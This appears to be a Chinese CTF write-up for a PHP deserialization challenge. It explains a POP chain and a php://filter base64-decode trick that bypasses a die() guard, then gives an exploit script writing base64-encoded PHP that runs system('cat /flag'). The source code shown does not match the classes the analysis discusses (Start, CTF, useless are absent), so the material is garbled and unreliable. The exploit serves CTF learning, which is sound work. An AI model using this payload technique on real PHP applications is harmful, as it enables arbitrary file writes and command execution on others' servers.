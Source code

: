 ```php
class Flag{

  public function dosomething(){

​    include('./flag,php');

​    return "barking for fun!";

​    

  }

}

  $code=$_POST['code']; 

  if(isset($code)){

​    echo unserialize($code);

  }

  else{

​    echo "no way, fuck off";

  }
```

审计代码，链子尾是CTF的do something，且Start里的toString方法可以触发do something，所以可以构造pop链，Start->CTF。

可以发现do something里的file_put_contents函数可以被利用来往文件里写东西，唯一需要注意的就是useless里的die，这会使写入part2的命令和其拼接后无法被执行。

php://filter中的base64-decode在解码时，<>?;space等非base64可打印字符会被忽略，所以我们可以利用该过滤器，将php代码变成字符串phpdie+GenshinImpact Start+

因为base64是4位一组，phpdie+GenshinImpactStart+是26位，所以我们要给其补2位，再拼接上part2的base64编码，就可以将任意攻击代码写进文件了。

```php
exp：

$pop = new Start;

$pop->barking = new CTF;

$pop->barking->part1="php://filter/write=convert.base64-decode/resource=flag.php";

$pop ->barking->part2= "abPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=";

//<?php eval('system("cat /flag");');?>的base64编码

echo serialize($pop);
```
